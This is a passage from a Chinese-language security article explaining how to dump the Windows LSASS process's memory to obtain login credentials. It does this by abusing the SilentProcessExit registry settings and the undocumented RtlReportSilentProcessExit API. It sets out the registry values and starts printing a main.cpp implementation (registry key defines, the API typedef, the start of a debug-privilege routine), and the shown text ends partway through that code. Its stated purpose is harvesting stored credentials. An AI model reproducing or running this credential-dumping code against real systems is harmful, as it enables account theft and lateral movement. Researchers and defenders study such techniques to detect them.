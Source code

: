[![](https://p2.ssl.qhimg.com/t013dc7d854d1cfb4fc.png)](https://p2.ssl.qhimg.com/t013dc7d854d1cfb4fc.png)

这里我们需要使用的是`MiniDumpWithFullMemory`对应的值是0x2

根据github上已有的项目代码中我们也能进行验证[https://github.com/deepinstinct/LsassSilentProcessExit](https://)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0109fb0662af7fc7f8.png)

分别设置了`MiniDumpWithFullMemory`和`FLG_MONITOR_SILENT_PROCESS_EXIT`的值

实现修改注册表后我们就能够通过终止目标进程即可获得相应文件的DUMP文件，但是终止LSASS意味着系统将重启，并且我们的目的只是为了dump保存在其中的登录凭据，因此有没有什么办法能够是进程在`静默退出`而又不会实际终止进程呢？

答案是有的，我们来看这个API:**RtlReportSilentProcessExit**

API将与Windows错误报告服务（WerSvcGroup下的WerSvc）通信，告诉服务该进程正在执行静默退出。然后，WER服务将启动WerFault.exe，该文件将转储现有进程。值得注意的是，调用此API不会导致进程退出。其定义如下：

```
NTSTATUS （NTAPI * RtlReportSilentProcessExit ）（
        _In_      HANDLE      ProcessHandle，
        _In_      NTSTATUS    ExitStatus 
       ）;
```

但是在MSDN中并没有查询到该API的任何解释，原来该函数是`Ntdll.dll`的导出函数而MSDN是没有关于`Ntdll`中API的任何解释的:

[![](https://p0.ssl.qhimg.com/t01aad46466be8c2ec2.png)](https://p0.ssl.qhimg.com/t01aad46466be8c2ec2.png)

当我们调用此API不会导致Lsass进程退出,这可以让我们在LSASS进程上执行DUMP动作而不导致LSASS的终止从而实现我们的目的

原文作者使用两种方式，一种是直接调用`RtlReportSilentProcessExit`，一种是远程在LSASS中创建线程执行`RtlReportSilentProcessExit`<br>
这两种方法都能够成功dump内存，这里我们使用第一种方式通过`RtlReportSilentProcessExit`来使得`lsass`进程出于静默退出状态

贴出`main.cpp`:

```
#include "windows.h"
#include "tlhelp32.h"
#include "stdio.h"
#include "shlwapi.h"

#pragma comment(lib, "shlwapi.lib")

#define IFEO_REG_KEY L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\"
#define SILENT_PROCESS_EXIT_REG_KEY L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\SilentProcessExit\\"
#define LOCAL_DUMP 0x2
#define FLG_MONITOR_SILENT_PROCESS_EXIT 0x200
#define DUMP_FOLDER L"C:\\temp"
#define MiniDumpWithFullMemory 0x2

typedef NTSTATUS(NTAPI * fRtlReportSilentProcessExit)(
    HANDLE processHandle,
    NTSTATUS ExitStatus
    );

BOOL EnableDebugPriv() `{`
    HANDLE hToken = NULL;
    LUID luid;

    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &amp;hToken)) `{`
        printf(" - 获取当前进程Token失败 %#X\n", GetLastError());
        return FALSE;
    `}`
```